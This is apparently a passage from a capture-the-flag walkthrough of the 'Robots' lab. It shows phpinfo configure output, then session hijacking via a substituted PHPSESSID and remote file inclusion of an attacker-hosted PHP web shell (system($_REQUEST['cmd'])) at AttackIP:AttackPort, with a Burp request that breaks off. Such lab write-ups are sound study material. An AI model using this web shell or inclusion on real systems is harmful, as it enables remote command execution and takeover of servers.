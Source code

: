 <br>


```bash
<tr><td class="e">Configure Command </td><td class="v"> &#039;./configure&#039;  &#039;--build=x86_64-linux-gnu&#039; &#039;--with-config-file-path=/usr/local/etc/php&#039; &#039;--with-config-file-scan-dir=/usr/local/etc/php/conf.d&#039; &#039;--enable-option-checking=fatal&#039; &#039;--with-mhash&#039; &#039;--with-pic&#039; &#039;--enable-mbstring&#039; &#039;--enable-mysqlnd&#039; &#039;--with-password-argon2&#039; &#039;--with-sodium=shared&#039; &#039;--with-pdo-sqlite=/usr&#039; &#039;--with-sqlite3=/usr&#039; &#039;--with-curl&#039; &#039;--with-iconv&#039; &#039;--with-openssl&#039; &#039;--with-readline&#039; &#039;--with-zlib&#039; &#039;--disable-phpdbg&#039; &#039;--with-pear&#039; &#039;--with-libdir=lib/x86_64-linux-gnu&#039; &#039;--disable-cgi&#039; &#039;--with-apxs2&#039; &#039;build_alias=x86_64-linux-gnu&#039; </td></tr>
```

<p><em>decoded</em></p>

```bash
<tr><td class="e">Configure Command </td><td class="v"> './configure'  '--build=x86_64-linux-gnu' '--with-config-file-path=/usr/local/etc/php' '--with-config-file-scan-dir=/usr/local/etc/php/conf.d' '--enable-option-checking=fatal' '--with-mhash' '--with-pic' '--enable-mbstring' '--enable-mysqlnd' '--with-password-argon2' '--with-sodium=shared' '--with-pdo-sqlite=/usr' '--with-sqlite3=/usr' '--with-curl' '--with-iconv' '--with-openssl' '--with-readline' '--with-zlib' '--disable-phpdbg' '--with-pear' '--with-libdir=lib/x86_64-linux-gnu' '--disable-cgi' '--with-apxs2' 'build_alias=x86_64-linux-gnu' </td></tr>
```

<br>


<h3>PHP script</h3>

```bash
:~/Robots# echo '<?php system($_REQUEST["cmd"]); ?>' > cmd.php
```

<h3>Server info</h3>
<p>

- we have <code>admin</code> permissions after substituting the <code>PHPSESSID</code> value and reloading</br>
- click <code>Server Info</code><br>
- experiment<br>
- send <code>http://AttackIP:AttackPort/cmd.php</code>
</p>

<h3>Burp Repeater</h3>

<p>

- send the successfull <code>cmd</code> Request to Burp´s Repeater</p>

<h3>id</h3>
<p>
 
- add <code>&id</code> to the Request</p>

<p><em>Request</em></p>

```bash
POST /harm/to/self/admin.php HTTP/1.1
Host: robots.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: http://robots.thm
Connection: close
Referer: http://robots.thm/harm/to/self/admin.php
Cookie: PHPSESSID=Redacted
```